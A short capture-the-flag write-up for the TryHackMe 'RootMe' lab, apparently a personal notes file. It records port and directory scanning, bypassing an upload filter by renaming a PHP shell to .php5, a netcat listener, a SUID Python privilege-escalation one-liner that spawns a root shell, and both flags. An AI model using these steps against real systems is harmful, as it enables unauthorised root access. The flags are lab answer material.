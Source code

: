 # Beginners RootMe CTF on TryHackMe

IP=`10.10.89.238`

Ports:
```
22 ssh
80 http
```

gobuster
```
/uploads/
/panel/
```

Failed to upload a regular php file but converting it to php5 did the trick

Used a netcat listener on port 9999

user flag was in /var/www
`THM{y0u_g0t_a_sh3ll}`
Scanning for suid files and we notice python has root priviledges
launched a priviledged shell through python
`python -c import os; os.execl("/bin/sh", "sh", "-p")`

root flag:
`THM{pr1v1l3g3_3sc4l4t10n}`
